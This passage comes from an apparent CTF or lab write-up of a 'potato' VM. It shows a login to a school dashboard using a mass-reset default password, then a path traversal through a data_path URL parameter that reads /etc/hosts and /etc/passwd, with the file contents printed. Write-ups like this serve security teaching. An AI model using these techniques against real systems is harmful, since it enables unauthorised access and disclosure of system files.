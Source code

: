 16) Opening the link stated in Eunchae's inbox `https://potatos.potato-school.com/new_dashboard/login.php` brings us to login page. As the email stated, all user accounts (students, most likely) had their password reset to `P@$$w0rd`, attempting to login with `Eunchae` as the username & `P@$$w0rd` was successful and allowed us to navigate through the new dashboard, upon changing the password, which I changed to `manchae`.

    ![New_Dashboard_Login.php](@images/2025/potato-vm-writeup/New_Dashboard_Login.php.png)
    ![New_Dashboard_Login.pup_Eunchae_Success](@images/2025/potato-vm-writeup/New_Dashboard_Login.pup_Eunchae_Success.png)

    Exploring the various sections, tabs, and buttons in the new dashboard, the one that stood out the most was `Retrieve User Data`. Clicking on `Retrieve User Data` showed that the URL changed to `https://potatos.potato-school.com/new_dashboard/index.php?data_path=%2Feunchae%2Feunchae_data`. In the URL, the path as to which the data is obtained from was stated, which brought to my mind the attack known as [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal).

## Path Traversal

17) Attempting [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal), I decided to look at various files:

    `/etc/hosts`
    ```
    127.0.0.1 localhost
    127.0.1.1 potatos.potato-school.com www.potato-school.com
    # The following lines are desirable for IPv6 capable hosts
    ::1 localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ```
    
    `/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
    mysql:x:100:108:MySQL Server,,,:/var/lib/mysql:/bin/false
    messagebus:x:101:109::/nonexistent:/usr/sbin/nologin
    sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
    tss:x:103:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    usbmux:x:104:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    avahi:x:106:113:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    speech-dispatcher:x:107:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    fwupd-refresh:x:108:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    saned:x:109:118::/var/lib/saned:/usr/sbin/nologin
    geoclue:x:110:119::/var/lib/geoclue:/usr/sbin/nologin
